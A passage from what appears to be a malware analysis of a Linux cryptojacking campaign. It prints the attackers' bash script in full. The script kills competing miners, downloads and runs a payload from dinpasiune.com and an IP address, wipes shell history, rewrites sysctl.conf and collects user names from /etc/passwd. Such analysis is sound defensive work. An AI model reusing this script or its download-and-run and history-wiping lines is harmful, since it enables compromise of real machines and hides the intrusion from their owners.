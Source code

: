 

Based on this initial process, it seems to be killing certain services and processes such as chrome and cnrig, this seems to be indicative of exploiting the device to cryptomining and stopping competitive mining if present. The exploit would then deploy a malicious script for cryptomining with persistence mechanisms, system compromise techniques, and a focus on data exfiltration:

```
#!/bin/bash
key=$1
user=$2
if [[ $key == "KOFVwMxV7k7XjP7fwXPY6Cmp16vf8EnL54650LjYb6WYBtuSs3Zd1Ncr3SrpvnAU" ]]
then
    echo -e ""
else
    echo "Logged with successfully."
    rm -rf .retea
    crontab -r
    pkill xrx
    pkill haiduc
    pkill blacku
    pkill xMEu
    cd /var/tmp
    rm -rf /dev/shm/.x /var/tmp/.update-logs /var/tmp/Documents /tmp/.tmp
    mkdir /tmp/.tmp
    pkill Opera
    rm -rf xmrig .diicot .black Opera
    rm -rf .black xmrig.1
    pkill cnrig
    pkill java
    killall java
    pkill xmrig
    killall cnrig
    killall xmrig
    wget -q dinpasiune.com/payload || curl -O -s -L dinpasiune.com/payload || wget 85.31.47.99/payload || curl -O -s -L 85.31.47.99/payload
    chmod +x *
    ./payload >/dev/null 2>&1 & disown
    history -c
    rm -rf .bash_history ~/.bash_history
    chmod +x .teaca
    ./.teaca > /dev/null 2>&1
    history -c
    rm -rf .bash_history ~/.bash_history
fi

rm -rf /etc/sysctl.conf
echo "fs.file-max = 2097152" > /etc/sysctl.conf
sysctl -p
ulimit -Hn
ulimit -n 99999 -u 999999

cd /dev/shm
mkdir /dev/shm/.x > /dev/null 2>&1
mv network .x/
cd .x
rm -rf retea ips iptemp ips iplist
sleep 1
rm -rf pass

useri=`cat /etc/passwd |grep -v nologin |grep -v false |grep -v sync |grep -v halt |grep -v shutdown |cut -d: -f1`
echo $useri > .usrs
pasus=.usrs
check=`grep -c . .usrs`
```
